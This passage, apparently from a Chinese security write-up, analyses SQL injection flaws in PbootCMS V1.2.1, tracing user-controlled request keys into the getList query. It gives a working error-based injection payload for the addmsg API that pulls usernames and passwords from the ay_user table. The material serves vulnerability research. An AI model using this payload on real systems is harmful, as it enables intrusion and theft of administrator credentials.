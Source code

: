 从代码中看他会收集外部所有的 $_GET 带入 getList 进行入库查询 value 是我们无法控制所以无法注入的，可是key是我们可控制可注入的！！！跟进 getList方法
路径：PbootCMS-V1.2.1\apps\api\model\CmsModel.php
function getList(

```
// 列表内容
    public function getList($acode, $scode, $num, $order, $where = array(), $fuzzy = true)
    {
        ...
        // 筛选条件支持模糊匹配
        return parent::table('ay_content a')->field($fields)
            ->where($where1, 'OR')
            ->where($where2)
            ->where($where, 'AND', 'AND', $fuzzy)
            ->join($join)
            ->order($order)
            ->page(1, $num)
            ->decode()
            ->select();
    } 
```

这里我把关键代码放出来了，可以看到接收$where以后直接仍进了数据库进行操作造成了注入

## 0x10.2 接口注入二

### 0x10.2.1 漏洞利用

```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addmsg
post:
    contacts[contentl`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
    mobile = 111
    content = 111 
```

![image](img/bdf64ae168196e96890a6760d092f264.png)
